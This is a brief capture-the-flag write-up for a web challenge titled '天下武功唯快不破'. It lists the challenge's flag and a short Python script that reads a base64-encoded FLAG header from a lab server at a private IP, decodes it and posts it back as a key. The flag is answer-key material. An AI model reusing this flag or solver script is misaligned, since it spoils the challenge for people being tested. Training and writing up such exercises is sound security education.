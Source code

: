 # 天下武功唯快不破

## flag
BDCTF{OWeoAtqtIr}

## wp
import requests  
import base64  
a=requests.post('http://192.168.109.240:20006/')  
key=a.headers['FLAG']  
flag=str(base64.b64decode(key)).split(':')[1]  
data={'key':flag}  
b=requests.post('http://192.168.109.240:20006/',data=data)  
print(b.content)  
